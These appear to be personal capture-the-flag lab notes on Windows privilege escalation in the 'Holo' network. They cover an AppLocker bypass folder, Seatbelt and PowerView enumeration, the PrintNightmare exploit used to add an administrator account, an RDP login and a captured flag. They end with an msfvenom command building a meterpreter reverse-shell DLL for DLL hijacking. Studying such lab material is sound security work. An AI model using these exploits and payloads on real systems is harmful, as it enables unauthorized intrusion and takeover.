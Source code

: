Now we need to escalate and i will go with what we learn in WPE rather than new approaching and see if the Ninja technique that i learnt is successful.

Will check the location where we can run Powerview
[applocker-bypas-checker.ps1](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1)

Whitelist
```
C:\Windows\Tasks
```


So now i was able to run Seatbelt
```
Seatbelt.exe -group=all -full
```
https://github.com/GhostPack/Seatbelt#command-groups


```
Import-Module ./PowerView.ps1
```

```
Get-NetLocalGroup

ComputerName GroupName                           Comment
------------ ---------                           -------
PC-FILESRV01 Access Control Assistance Operators Members of this group can remotely query authorization attributes and permissions for resources on this computer.
PC-FILESRV01 Administrators                      Administrators have complete and unrestricted access to the computer/domain
PC-FILESRV01 Backup Operators                    Backup Operators can override security restrictions for the sole purpose of backing up or restoring files
PC-FILESRV01 Certificate Service DCOM Access     Members of this group are allowed to connect to Certification Authorities in the enterprise
PC-FILESRV01 Cryptographic Operators             Members are authorized to perform cryptographic operations.
PC-FILESRV01 Device Owners                       Members of this group can change system-wide settings.
PC-FILESRV01 Distributed COM Users               Members are allowed to launch, activate and use Distributed COM objects on this machine.
PC-FILESRV01 Event Log Readers                   Members of this group can read event logs from local machine
PC-FILESRV01 Guests                              Guests have the same access as members of the Users group by default, except for the Guest account which is further restricted
PC-FILESRV01 Hyper-V Administrators              Members of this group have complete and unrestricted access to all features of Hyper-V.
PC-FILESRV01 IIS_IUSRS                           Built-in group used by Internet Information Services.
PC-FILESRV01 Network Configuration Operators     Members in this group can have some administrative privileges to manage configuration of networking features
PC-FILESRV01 Performance Log Users               Members of this group may schedule logging of performance counters, enable trace providers, and collect event traces both locally and vi...
PC-FILESRV01 Performance Monitor Users           Members of this group can access performance counter data locally and remotely
PC-FILESRV01 Power Users                         Power Users are included for backwards compatibility and possess limited administrative powers
PC-FILESRV01 Print Operators                     Members can administer printers installed on domain controllers
PC-FILESRV01 RDS Endpoint Servers                Servers in this group run virtual machines and host sessions where users RemoteApp programs and personal virtual desktops run. This grou...
PC-FILESRV01 RDS Management Servers              Servers in this group can perform routine administrative actions on servers running Remote Desktop Services. This group needs to be popu...
PC-FILESRV01 RDS Remote Access Servers           Servers in this group enable users of RemoteApp programs and personal virtual desktops access to these resources. In Internet-facing dep...
PC-FILESRV01 Remote Desktop Users                Members in this group are granted the right to logon remotely
PC-FILESRV01 Remote Management Users             Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management servic...
PC-FILESRV01 Replicator                          Supports file replication in a domain
PC-FILESRV01 Storage Replica Administrators      Members of this group have complete and unrestricted access to all features of Storage Replica.
PC-FILESRV01 System Managed Accounts Group       Members of this group are managed by the system.
PC-FILESRV01 Users                               Users are prevented from making accidental or intentional system-wide changes and can run most applications
```




```
PS C:\Windows\Tasks> Get-NetLocalGroupMember


ComputerName : PC-FILESRV01
GroupName    : Administrators
MemberName   : PC-FILESRV01\Administrator
SID          : S-1-5-21-4241685735-4112329853-1893400299-500
IsGroup      : False
IsDomain     : False

ComputerName : PC-FILESRV01
GroupName    : Administrators
MemberName   : HOLOLIVE\Domain Admins
SID          : S-1-5-21-471847105-3603022926-1728018720-512
IsGroup      : True
IsDomain     : True
```



```
PS C:\Windows\Tasks> Get-NetLoggedon


UserName     : watamet
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  : DC-SRV01
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost

UserName     : PC-FILESRV01$
LogonDomain  : HOLOLIVE
AuthDomains  :
LogonServer  :
ComputerName : localhost
```


```
PS C:\Windows\Tasks> Find-LocalAdminAccess
S-SRV01.holo.live
```


```
PS C:\Windows\Tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```


![[Pasted image 20240902033528.png]]


Power-View
![[Pasted image 20240903101740.png]]

So upon doing manual enumeration i found Applications folder which is a Obivo a Sus
![[Pasted image 20240903104136.png]]

![[Pasted image 20240903104305.png]]


So it might be vulnerable to print night mare vulnerability.

![[Pasted image 20240904021616.png]]

Mine CVE didn't worked let's try different one
https://github.com/calebstewart/CVE-2021-1675

```
Import-Module .\CVE-2021-1675.ps1
```

```
Invoke-Nightmare -NewUser "Sardarji" -NewPassword "Password123!"
```

![[Pasted image 20240904023402.png]]

And guess what it worked
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'Sardarji' /p:'Password123!'
```

![[Pasted image 20240904024007.png]]

Root access
```
HOLO{ee7e68a69829e56e1d5b4a73e7ffa5f0}
```


Another method is Dll hijacking.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.51.9.13 LPORT=4444 -f dll -o kavremoverENU.dll
```


